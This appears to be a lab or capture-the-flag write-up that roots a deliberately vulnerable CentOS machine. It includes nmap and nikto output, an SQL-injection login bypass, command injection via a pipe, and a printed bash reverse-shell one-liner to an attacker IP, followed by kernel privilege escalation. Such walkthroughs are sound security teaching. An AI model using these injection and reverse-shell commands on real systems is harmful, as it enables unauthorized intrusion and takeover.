







## Initial Scan and Enumeration

We start by conducting an `nmap` scan to gather information about the target machine:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 17:43 EDT
Nmap scan report for 192.168.1.2
Host is up (0.00034s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            737/udp   status
|_  100024  1            740/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2024-10-19T18:34:08+00:00; -3h09m40s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp  open  ipp      CUPS 1.1
|_http-server-header: CUPS/1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
740/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:8C:23:D8 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

### Key Findings:

- **Port 22 (SSH)** is open, running an old version of OpenSSH (3.9p1), with support for SSHv1.
- **Port 80 (HTTP)** and **443 (HTTPS)** are open, running Apache HTTP Server version 2.0.52 on CentOS.
- **Port 631 (CUPS)** is open, indicating an exposed print server interface.
- **Port 3306 (MySQL)** is open but unauthorized.

We can see the following open services:
- **HTTP/HTTPS on ports 80 and 443** – web services, likely running outdated versions of Apache.
- **CUPS on port 631** – potentially misconfigured printer service.

Next, we accessed the page hosted on port 80:



Upon analyzing the page source, we found a potential username, `Administrator`, which might be used for the login form.

## Vulnerability Scanning with Nikto

To gather more information, we ran `nikto` on the exposed HTTP ports:

### Scan Results for Port 80:

```bash
└─$ nikto -h http://192.168.1.2   
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.1.2
+ Target Hostname:    192.168.1.2
+ Target Port:        80
+ Start Time:         2024-10-19 17:47:43 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.0.52 (CentOS)
+ /: Retrieved x-powered-by header: PHP/4.3.9.
+ /: The anti-clickjacking X-Frame-Options header is not present.
+ /: The X-Content-Type-Options header is not set.
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.54).
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE.
+ HTTP TRACE method is active, potentially vulnerable to Cross-Site Tracing (XST).
+ /icons/: Directory indexing found.
+ /manual/: Web server manual found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains credentials.
+ End Time: 2024-10-19 17:48:23 (GMT-4)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Scan Results for Port 631:

```bash
└─$ nikto -h http://192.168.1.2:631
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.1.2
+ Target Hostname:    192.168.1.2
+ Target Port:        631
+ Start Time:         2024-10-19 17:50:42 (GMT-4)
---------------------------------------------------------------------------
+ Server: CUPS/1.1
+ The X-Frame-Options and X-Content-Type-Options headers are not set.
+ HTTP method ('Allow' Header): 'PUT' method could allow file uploads on the server.
+ End Time: 2024-10-19 17:51:55 (GMT-4)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Both scans identified potential vulnerabilities and weak headers.

## Exploiting the Web Interface

We then attempted a SQL injection on the login form:



The injection worked, and we gained access to the system. We verified that we could execute arbitrary commands by escaping bash commands using the pipe `|`.

```bash
| ls
```



The command executed successfully, confirming command injection capabilities:



## Gaining Shell Access

Next, we set up a reverse shell using a bash one-liner:

```bash
| bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

We confirmed successful shell access, running as the `apache` user:


## Privilege Escalation

We identified that the system was running an old Linux kernel version:

```bash
uname -r
2.6.9-89.ELsmp
```



Using `searchsploit`, we found a local privilege escalation exploit for this kernel version.



We downloaded the exploit using `searchsploit -m`, set up a local HTTP server using Python to transfer it to the target machine, and compiled the exploit. After executing it, we successfully gained root access.



## Conclusion

We successfully rooted the target system by leveraging outdated software versions, SQL injection vulnerabilities, and privilege escalation exploits. This engagement highlights the importance of keeping systems and software updated and securing web applications from common vulnerabilities.